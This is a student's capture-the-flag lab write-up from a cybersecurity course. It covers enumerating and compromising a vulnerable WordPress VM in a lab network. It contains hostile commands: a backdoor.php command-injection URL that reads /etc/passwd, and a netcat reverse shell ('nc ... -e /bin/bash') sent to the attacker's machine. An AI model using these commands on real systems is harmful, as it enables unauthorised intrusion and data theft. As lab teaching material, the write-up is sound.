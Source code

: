 ## Activity File: Attacking Target 2 

Target 2 exposes the same WordPress site as Target 1, but with better security hardening. Therefore, it must be exploited differently than Target 1. 

The steps for completing this assessment are enumerated below. All details required to capture the first three flags on Target 2 are included.


### Instructions

Target 2's IP Address: `192.168.1.115`

1. Use Nmap to identify the IP address of Target 2.

![netdiscover](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Target_2/Images/1NETDISCOVERFORMACHINES.jpg)

2. Use Nmap to document all exposed ports and services at this IP address.

![nmapSS](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Target_2/Images/2NMAPSSTARGET2.jpg)

3. Enumerate the web server with `nikto`.
    - **Hint**: Run: `nikto -C all -h <URL>`
    - **Note**: This creates a list of URLs the Target HTTP server exposes. What kind of website is this VM running?
    
![nikto](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Target_2/Images/4NIKTOSCAN.jpg)

This target is running an Apache webserver with WordPress.

4. Perform a more in-depth enumeration with `gobuster`.
    - **Hint**
      - Install `gobuster` using `apt`
      
   ### First, run...
   
      `sudo apt-get update`
    
    ### Then run...
            
                 `sudo apt-get install gobuster`

 ![gobusterupdate](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Target_2/Images/6INSTALLGOBUSTER-WORKED.jpg)
     
      - Run `gobuster -w /path/to/wordlist dir -u <URL>
        
      - Use `/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt` as your wordlist (`-w`).
      
 ![gobusterinstall](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Target_2/Images/7RUNGOBUSTER1.jpg)
      
      - Pay attention to the `/vendor` directory. There may be a `flag` in there...

### It appears that the directories available are /img, /css, /wordpress, /manual, /js, /vendor. Since I was directed to the /vendor directory, we ran this: 
    `gobuster dir -u http://192.168.1.115/vendor -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
 
 ![gobustervendor](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Target_2/Images/8GOBUSTER-VENDOR.jpg)

Ran `firefox http://192.168.1.115/Vendor` and then began snooping through the contents. Selected "Path" and found Flag 1.
 
 ![flag1](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Target_2/Images/16FLAG1.jpg)
 
5. Use searchsploit to find any known vulnerabilities associated with the programs found in Step #4.
    **Hint**: Run `searchsploit -h`
    
    `searchsploit -u` to update
    
    `searchsploit open ssh`
    
    ![searchsploitexample](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Target_2/Images/15SEARCHSPLOIT-OPEN-SSH.jpg)
    
    `searchsploit wordpress`
    

6. Use the provided script `exploit.sh` to exploit this vulnerability by opening an Ncat connection to your Kali VM.

    - Edit the line at the top of the script that sets the `TARGET` variable. Set it equal to the IP address of Target 2.
   
   I edited it using nano as follows:

![nanoexploitfile](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Target_2/Images/17NANOeXPLOIT.jpg)

    - Run the script. It uploads a file called `backdoor.php` to the target server. This file can be used to execute command injection attacks.
`bash exploit.sh` Runs the script

![bashresult](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Target_2/Images/18BashExploitResult.jpg)

    - Navigate to: `http://<Target 2 URL>/backdoor.php?cmd=<CMD>`
    
      - This allows you to run bash commands on Target 2.
      - For example, try: `http://<Target 2 URL>/backdoor.php?cmd=cat%20/etc/passwd`
      
![bashbackdoorexample](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Target_2/Images/19BASHSCRIPTTHROUGHBACKDOOR.jpg)

    - Next, use the backdoor to open a shell session on the target.

      - On your **Kali** VM, start a netcat listener: `nc -lnvp 4444`
 
 ![sshbackdoorlistener](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Target_2/Images/20listeningon4444SSHIN.jpg)
 
      - In the browser, use the backdoor to run: `nc <Kali IP> 4444 -e /bin/bash`. For example, your query string will look like `cmd=nc%20<Kali IP>%204444%20-e%20/bin/bash`.
      
http://192.168.1.115/backdoor.php?cmd=nc%20192.168.1.90%204444%20-e%20/bin/bash

7. Using the shell you've opened on `Target 2`, find a `flag` in `/var/www`.

![flag2](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Target_2/Images/21FLAG2.jpg)

8. Next, find a flag in the WordPress uploads directory.

`ls`
`cd wordpress`
`cd wp-content`
`cd uploads`
`cd 2018`
`cd 11`
See "flag3.png"

![flag3](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Target_2/Images/22FLAG3.jpg)

    - **Hint**: Use the `find` command: `find /var/www -type f -iname 'flag*'`

9. If you find all three flags -- congratulations! There is a fourth, but escalating to `root` is extremely difficult: For now, move on to completing a report about Target 2.

---

© 2021 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.
